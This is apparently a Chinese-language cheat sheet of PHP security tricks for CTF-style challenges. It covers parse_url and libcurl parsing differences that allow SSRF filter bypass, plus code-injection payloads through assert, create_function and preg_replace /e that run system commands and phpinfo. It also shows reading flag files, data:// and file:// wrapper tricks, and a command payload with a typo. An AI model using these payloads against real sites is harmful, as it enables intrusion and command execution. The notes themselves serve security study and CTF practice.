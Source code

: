 # PHP trick

https://paper.seebug.org/561/#parse_urllibcurlurlssrf



`Parse_url`

##### parse_url与libcurl对与url的解析差异可能导致ssrf

- 当url中有多个@符号时，**parse_url中获取的host是最后一个@符号后面的host，而libcurl则是获取的第一个@符号之后的。**因此当代码对`http://user@eval.com:80@baidu.com` 进行解析时，PHP获取的host是baidu.com是允许访问的域名，而最后调用libcurl进行请求时则是请求的eval.com域名，可以造成ssrf绕过
- 此外对于`https://evil@baidu.com`这样的域名进行解析时,php获取的host是`evil@baidu.com`，但是libcurl获取的host却是evil.com

##### url标准的灵活性导致绕过filter_var与parse_url进行ssrf

`assert`

参数过滤不当，执行php语句

```php
assert("file_get_contents('2333.pdf') and system('dir')");
```

`passthru`
命令执行

```php
<?php
if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

    echo "<br >Welcome My Admin ! <br >";

    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }

}
```

payload:
```?pat=/a/e&passru('ls%20-al')&sub=a
```

`copy`

拷贝文件

`readfile`
直接输出文件内容
```php
<?php
echo readfile('D:\\flag');
?>
```
输出内容加长度

`eval`

不带引号翻目录
`getcwd()`获取当前绝对路径
`dirname`返回上一级路径
`scandir`列目录文件

```php
<?php
var_dump(dirname(getcwd()));
```

`session_start`

session_start(option) 可以通过设置`option`设置`session`配置

![img](https://raw.githubusercontent.com/wiki/imtinmin/photo/php-session/4.png)

![img](https://raw.githubusercontent.com/wiki/imtinmin/photo/php-session/3.png)

```
session(array('save_path=/tmp'))
```

`create_function`
执行任意php代码
```php
<?php
create_function('','return "123";}phpinfo();//')
```

构造
```php
function abc(){
	return "123";}phpinfo();//
}
```

```php
strpos("","php") 
```

```
file:///var/www/html/flag.%2570hp
```

data协议

```php
file_get_contents('data://text/plain;base64,SSBsb3ZlIFBIUAo=');
```

```
data://image/jpeg;base64
```